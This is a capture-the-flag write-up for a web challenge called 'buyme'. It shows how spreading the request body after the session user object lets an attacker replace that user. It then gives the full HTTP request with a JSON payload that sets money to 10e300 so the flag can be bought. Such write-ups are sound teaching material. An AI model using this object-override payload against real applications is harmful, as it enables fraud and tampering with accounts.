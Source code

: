 When looking at the source, we can spot the following:

```html
app.use(express.json());
```

> When we submit a `json` object inside a `POST` body, it will get parsed to an javascript object

Furthermore, we have `api.js` which contains this interesting code snippet. The line `{ user: req.user, ...req.body }`
will take the `user` and everything not the `user` from the request. However, if we add a `user` inside `req.body`, we can overwrite the first user.

```js
router.post("/buy", requiresLogin, async (req, res) => {
    if(!req.body.flag) {
        return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
    }

    try {
        db.buyFlag({ user: req.user, ...req.body });
    }
    catch(err) {
        return res.redirect("/flags?error=" + encodeURIComponent(err.message));
    }

    res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});
```

This will get abused inside the method to buy a flag, where we can influence the `money` attribute, such that we have `10e300$` to buy the flag.

```js
const buyFlag = ({ flag, user }) => {

    console.log("flag:",flag)
    console.log("user:",user)

    if(!flags.has(flag)) {
        throw new Error("Unknown flag");
    }
    if(user.money < flags.get(flag).price) {
        throw new Error("Not enough money");
    }

    user.money -= flags.get(flag).price;
    users.set(user.user, user);
};
```

So we build a final request with a json payload. However, we have to adapt the header to `Content-Type: application/json` in order to enable json parsing. (<https://stackoverflow.com/questions/10005939/how-do-i-consume-the-json-post-data-in-an-express-application>) 

```http
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Cookie: user=s%3Accvvcc.UkI%2FmQkD0UaF4XqvSg2Pbh77gRlany60pFg4g0bHhPU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 76
Origin: https://buyme.be.ax
Referer: https://buyme.be.ax/flags
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

{"flag":"United Kingdom","user":{"user":"ccvvcc","flags":[],"money":10e300}}
```

To finally get the flag, we simply buy it :)